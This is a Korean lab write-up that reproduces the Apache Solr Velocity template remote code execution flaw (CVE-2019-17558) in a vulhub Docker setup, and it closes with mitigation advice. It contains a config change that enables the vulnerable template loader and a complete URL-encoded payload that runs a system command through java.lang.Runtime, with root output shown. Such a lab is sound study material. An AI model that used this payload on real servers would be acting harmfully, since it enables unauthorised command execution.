



# CVE-2019-17558 - Apache Solr Velocity Template RCE

## 개요

Apache Solr 5.0.0 ~ 8.3.1 버전에서는 `VelocityResponseWriter` 기능을 악용하여 원격 코드 실행(RCE)이 가능한 취약점이 존재한다. 본 보고서는 공식 PoC 흐름을 기반으로 해당 취약점을 Docker 환경에서 실습을 통해 재현한 결과를 포함하고 있다.

- 취약점 번호: [CVE-2019-17558](https://nvd.nist.gov/vuln/detail/CVE-2019-17558)
- 영향 버전: Apache Solr 5.0.0 ~ 8.3.1
- PoC 출처: vulhub / GitHub 공개 PoC

---

## 환경 구성

### 사용 기술

- Docker, docker-compose
- Vulhub의 CVE-2019-17558 실습 환경
- 브라우저 기반 확인

### 환경 구성

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose up -d
```

Apache Solr는 8983번 포트에서 실행됨. 브라우저에서 [http://localhost:8983](http://localhost:8983) 로 접근 가능.

---

## 취약점 재현 절차

### 1. Core 생성

Solr core를 `demo`라는 이름으로 생성한다. (해당 환경에는 이미 생성되어 있다.)

```bash
curl "http://localhost:8983/solr/admin/cores?action=CREATE&name=demo&configSet=_default"
```



---

### 2. Velocity 템플릿 기능 활성화

#### velocity.json 파일 생성: 

```json
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": true,
    "params.resource.loader.enabled": true
  }
}
```

#### curl을 이용한 설정 적용:

```bash
curl -X POST http://localhost:8983/solr/demo/config   -H "Content-Type: application/json"   --data-binary "@velocity.json"
```

응답 예시:
```json
{
  "responseHeader": {
    "status": 0
  }
}
```


---

## 취약점 트리거

브라우저 주소창에 아래 URL을 입력하여 악의적인 Velocity 템플릿을 실행시킴:

```
http://localhost:8983/solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)%20%23set($rt=$x.class.forName(%27java.lang.Runtime%27))%20%23set($chr=$x.class.forName(%27java.lang.Character%27))%20%23set($str=$x.class.forName(%27java.lang.String%27))%20%23set($ex=$rt.getRuntime().exec(%27id%27))%20$ex.waitFor()%20%23set($out=$ex.getInputStream())%20%23foreach($i%20in%20[1..100])$str.valueOf($chr.toChars($out.read()))%23end
```

---

## 결과 확인

RCE가 성공하면 다음과 같은 `id` 명령의 결과가 응답에 포함되어 브라우저에 표시된다:

```
uid=0(root) gid=0(root) groups=0(root)
```



---

## 결론 및 보안 권고

본 취약점은 Solr에서 사용자 정의 템플릿을 허용할 경우 발생할 수 있는 위험을 보여준다.  
시스템 명령이 Java Velocity 엔진을 통해 실행될 수 있으며, 다음과 같은 조치가 필요하다:

- `params.resource.loader.enabled`를 기본적으로 `false`로 유지
- VelocityResponseWriter 사용 금지 또는 인증된 관리자만 설정 변경 가능하도록 제한
- Solr 최신 버전(8.4 이상) 업그레이드 권고

---

## 참고

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558  
- https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558  
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133  
